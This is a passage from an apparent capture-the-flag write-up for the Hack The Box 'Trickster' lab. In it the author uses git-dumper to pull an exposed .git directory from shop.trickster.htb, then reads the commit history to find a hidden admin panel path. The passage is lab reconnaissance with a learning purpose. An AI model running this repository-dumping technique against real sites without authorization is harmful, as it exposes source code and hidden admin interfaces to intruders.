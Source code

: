 ```console
┌─[suce@parrot]─[~/Desktop/htbMachines/medium-trickster]
└──╼ $ ./git-dumper-linux http://shop.trickster.htb/.git/
Downloaded 'info/exclude' (240 bytes)
	Not using file 'info/exclude' for anything right now
Downloaded 'logs/HEAD' (163 bytes)
Downloaded 'description' (73 bytes)
	Not using file 'description' for anything right now
Downloaded 'config' (112 bytes)
	Not using file 'config' for anything right now
	Found log with 1 hashes
Downloaded 'COMMIT_EDITMSG' (20 bytes)
	Not using file 'COMMIT_EDITMSG' for anything right now
Downloaded 'HEAD' (28 bytes)
	Found ref path refs/heads/admin_panel
  .
  .
  .
  .
  .
Downloaded 'objects/c7/1623070c5c6d7212c4d645a043646e1dd48675' (1143 bytes)
	Found blob object
```
Cd into `git-dumped`, using `git log` shows us previous commits. Using `git show 0cbc7831c1104f1fb0948ba46f75f1666e18e64c` renders the changes.
```console
┌─[suce@parrot]─[~/Desktop/htbMachines/medium-trickster]
└──╼ $ cd git-dumped/.git/
┌─[suce@parrot]─[~/Desktop/htbMachines/medium-trickster/git-dumped/.git]
└──╼ $ ls -la
total 26496
drwxr-xr-x 1 suce suce      134 Eki 12 19:45 .
drwxr-xr-x 1 suce suce        8 Eki 12 19:40 ..
-rw-r--r-- 1 suce suce       20 Eki 12 19:40 COMMIT_EDITMSG
-rw-r--r-- 1 suce suce      112 Eki 12 19:40 config
-rw-r--r-- 1 suce suce       73 Eki 12 19:40 description
-rw-r--r-- 1 suce suce 26858958 Eki 12 19:45 file.txt
-rw-r--r-- 1 suce suce       28 Eki 12 19:40 HEAD
-rw-r--r-- 1 suce suce   252177 Eki 12 19:40 index
drwxr-xr-x 1 suce suce       14 Eki 12 19:40 info
drwxr-xr-x 1 suce suce        8 Eki 12 19:40 logs
drwxr-xr-x 1 suce suce     1020 Eki 12 19:40 objects
drwxr-xr-x 1 suce suce       10 Eki 12 19:40 refs

┌─[suce@parrot]─[~/Desktop/htbMachines/medium-trickste/git-dumped/.git]
└──╼ $ git log
commit 0cbc7831c1104f1fb0948ba46f75f1666e18e64c (HEAD -> admin_panel)
Author: adam <adam@trickster.htb>
Date:   Fri May 24 04:13:19 2024 -0400

    update admin pannel

┌─[suce@parrot]─[~/Desktop/htbMachines/medium-trickster/git-dumped/.git]
└──╼ $ git show 0cbc7831c1104f1fb0948ba46f75f1666e18e64c
```
Reading a few lines on the code and `/admin634ewutrx1jgitlooaj/` looks like the admin directory.
```text
+THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
+IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
+FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
+AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
+LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
+OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN
+THE SOFTWARE.
```